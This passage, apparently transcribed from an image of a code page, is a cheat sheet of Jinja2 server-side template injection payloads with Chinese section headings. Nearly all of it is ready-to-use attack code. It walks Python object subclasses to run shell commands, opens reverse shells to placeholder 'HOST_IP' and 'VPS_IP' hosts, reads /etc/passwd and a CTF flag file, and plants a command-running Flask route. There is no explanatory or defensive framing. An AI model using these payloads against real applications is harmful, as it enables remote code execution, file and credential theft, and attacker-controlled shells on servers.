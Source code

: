 ```python
        {{ x.__init__.__globals__['linecache']['os'].popen('ls /').read() }}
    {% endif %}
{% endfor %}


# 命令执行_exec(无回显故反弹shell)
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'exec' in x.__init__.__globals__['__builtins__']['exec'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("HOST_IP",Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}
    {% endif %}
{% endfor %}

{{().__class__.__bases__[0].__subclasses__()[216].__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("VPS_IP",端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}

# 命令执行_catch_warnings 
{% for x in [].__class__.__base__.__subclasses__() %}{% if 'war' in x.__name__ %}{{ x.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}

# catch_warnings 读取文件
{% for x in [].__class__.__base__.__subclasses__() %}{% if x.__name__=='catch_warnings' %}{{ x.__init__.__globals__['__builtins__'].open('/app/flag', 'r').read() }}{% endif %}{% endfor %}

# _frozen_importlib_external.FileLoader 读取文件
 {% for x in [].__class__.__base__.__subclasses__() %} # {% for x in [].__class__.__bases__[0].__subclasses__() %}
    {% if 'FileLoader' in x.__name__ %}
        {{ x["get_data"](0,"/etc/passwd")}}
    {% endif %}
{% endfor %}

# 其他RCE
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{g.pop.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{application.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{joiner.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{namespace.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.current_app.add_url_rule('/1333337',view_func=url_for.__globals__.__builtins__['__import__']('os').popen('ls').read)}}

```
